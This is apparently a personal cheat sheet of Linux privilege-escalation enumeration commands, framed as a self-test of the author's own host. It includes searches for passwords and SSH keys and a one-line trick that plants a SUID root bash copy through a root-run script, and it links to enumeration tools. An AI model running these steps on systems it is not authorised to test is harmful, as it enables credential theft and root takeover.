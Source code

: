 ```yaml
---
title: Linux Privelege Escalation
date: "2022-03-21T23:46:37.121Z"
---
```


Recently I conducted some user privelege test / check in my Linux host machine here are the commands I used and some resources.


###### Check Kernel Version
```uname -a```

###### Check distro version
```cat /proc/version```

###### Check all the services running by root and check other services that running by different users
```ps aux | grep root```

###### Check what you can run as SUDO
```sudo -l```

###### Check all the users
```cat /etc/passwd```

###### Check history
```history```

###### Check all the connection
```netstat -ano```

###### Find no root Squashing, all the file you will be putting there will execute it as root
```cat /etc/exports```

###### Find any SUID
```find / -perm -u=s -type f 2>/dev/null```

###### Look for any password
```grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null```

###### Check shadow and passwd permission
```ls -la /etc/passwd```
```ls -la /etc/shadow```

###### Check capabilities
```getcap -r / 2>/dev/null```

###### Check schedulers and pay attention on the file permission, PATH and location if you can overwrite the file
```cat /etc/crontab```
```systemctl list-timers --all```

###### If this command is executed by root it will create file /tmp/bash  and if it execute by /tmp/bash -p it will create a shell root
```echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> file.sh```

###### Look for any confidential files
```find / -name "id_rsa" 2> /dev/null```
```find / -name "authorized_keys" 2> /dev/null```
```find / -name "pass*" 2> /dev/null```

###### Use automated tools
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
https://github.com/rebootuser/LinEnum
https://github.com/mzet-/linux-exploit-suggester
https://github.com/sleventyeleven/linuxprivchecker
https://gtfobins.github.io/

